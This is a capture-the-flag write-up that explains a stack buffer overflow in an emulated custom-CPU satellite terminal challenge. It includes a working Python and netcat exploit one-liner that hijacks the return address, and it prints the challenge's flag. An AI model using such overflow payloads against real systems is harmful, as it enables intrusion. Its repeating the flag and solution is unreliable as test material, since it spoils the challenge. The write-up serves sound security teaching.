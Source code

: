 ## TL;DR

It’s a classic “overflow your username to hijack the return address” challenge—just on a tiny custom CPU in an emulator. We smash the stack, point execution to a built-in `win` routine, and it prints the flag.

Final one-liner that wins:

`python3 - <<'PY' | nc -N sunshinectf.games 25701 import sys def p16(x): return bytes((x & 0xff, (x>>8)&0xff))  # little-endian 16-bit PAD = 54            # bytes to reach saved return address PC  = 0x0236        # address of @win DPC = 0x0000        # paired return value this CPU expects sys.stdout.buffer.write(b"A"*PAD + p16(PC) + p16(DPC) + b"\n") PY`

You’ll see:

`Welcome, AAAAA...6! sun{th1s_i5_ju57_7h3_t1p_0f_7h3_spEAR}`

---

## What the service looks like

Connecting with netcat:

`nc sunshinectf.games 25701  EAR-SAT-7 Terminal v2.3.1 Connected to: GEO-SAT-042 ... ... Enter username:`

- If you type a normal name (e.g., `Bob`), it prints `Welcome, Bob!`.
    
- If you paste a _very_ long name, you sometimes get:
    
    `PANIC! Segmentation fault Halted: Kernel panic`
    
    That’s our “the cup overflowed” signal.
    

This tells us the program is reading your input into a fixed-size buffer and not checking length—i.e., the classic buffer overflow.

---

## The plan in plain English

Think of the program’s memory like a stack of papers. Your username goes onto that stack. If your username is longer than the space reserved for it, it starts writing over the next papers—eventually covering the “where to go back to after finishing this function.” If we can overwrite that “go-back address” (the return address), we can send the program to **our** chosen function, namely `@win`, which prints the flag.

Two things we need:

1. **How far** to type before we hit the return address (the _offset_).
    
2. The **address** of the `@win` function (where to jump).
    

---

## Peeking under the hood (lightly)

The emulator prints debug info like this while running, and we’ve got snippets of the disassembly. Two key crumbs:

1. The function sets up a local buffer with:
    

`025B: SUB SP, 0x32`

That’s a 0x32-byte (50-byte) local area for your username.

2. The function epilogue looks like:
    

`0292: POP {S0, FP, PC-DPC}`

Translation: when returning, it pops **four** 2-byte values from the stack in this order:

- `S0` (2 bytes)
    
- `FP` (2 bytes)
    
- `PC` (2 bytes) ← the return address
    
- `DPC` (2 bytes) ← a partner value this CPU uses
    

So the stack layout after that 50-byte buffer is:

`[ 50 bytes of username ][ S0 ][ FP ][ PC ][ DPC ]`

That means the saved **PC** sits at offset **50 + 2 + 2 = 54**.

> Bonus quirk: this CPU stores addresses little-endian (low byte first), and it expects both `PC` _and_ `DPC` to be present. If you only overwrite `PC`, you often just crash. Set `DPC` to `0x0000` and life is good.

---

## Finding the right jump target (`@win`)

From the trace, there’s a label:

`@win:   0236: RDB A0, (15)   0238: BRR.GE  @win+0xa   ...`

You don’t need the details; the important bit is the address: **`0x0236`** (the start of `@win`). That’s where we want the program to “return” to.

---

## Putting it together

- **Padding** to the saved PC: 54 bytes
    
- **PC** (return address): `0x0236` → `b"\x36\x02"` (little-endian)
    
- **DPC**: `0x0000` → `b"\x00\x00"`
    
- **Newline** at the end (the program reads a line)
    

So our payload is:

`"A" * 54 + "\x36\x02" + "\x00\x00" + "\n"`

When you send that, the service echoes your username. The `\x36` (`'6'`) shows up as a literal `6` in the echoed “Welcome, …” line—don’t worry, that’s just the low byte of the address passing through the “printable char” filter. After echoing, control returns using our faked `PC/DPC`, lands in `@win`, and prints the flag.

---

## Reproduce it quickly

Disable terminal software flow control so `^S` doesn’t freeze you:

`stty -ixon -ixoff`

Then send the exploit:

`python3 - <<'PY' | nc -N sunshinectf.games 25701 import sys def p16(x): return bytes((x & 0xff, (x>>8)&0xff)) PAD = 54 PC  = 0x0236 DPC = 0x0000 sys.stdout.buffer.write(b"A"*PAD + p16(PC) + p16(DPC) + b"\n") PY`

Expected result:

`Enter username: Welcome, AAAAA...6! sun{th1s_i5_ju57_7h3_t1p_0f_7h3_spEAR}`

---

## How we confirmed the numbers (optional)

- Short names: program returns normally → too small to touch the return address.
    
- Super long names: crash with “PANIC!” → we’re overwriting _past_ the return address with junk.
    
- Sweep lengths: around **54** bytes is where things get interesting.
    
- Append the target address: `b"\x36\x02"` (0x0236 little-endian).
    
- Add the extra required word for this CPU’s calling convention: `DPC = 0x0000`.
    

---

## Common pitfalls & tips

- **No newline?** The program waits for end-of-line. Always end your payload with `\n`.
    
- **Order matters.** It’s little-endian: `0x0236` → `\x36\x02`.
    
- **DPC is required.** Because the epilogue pops `{PC-DPC}`, omit `DPC` and you’ll likely crash.
    
- **Seeing a stray `6` in your name?** That’s just the `\x36` byte being printed back. Totally fine.
    

---

## Takeaways

- Even on a “weird” CPU, stack overflows are the same story: find the buffer, find the return address, point it to a win path.
    
- Understand the function epilogue/calling convention. Here, the extra `DPC` word was the key to turning crashes into clean wins.
    
- A tiny amount of disassembly goes a long way: `SUB SP, 0x32` (buffer size) and `POP {…, PC-DPC}` (what we must overwrite) basically gave us the whole exploit plan.
    

Have fun, and congrats on poking the satellite just right 🚀
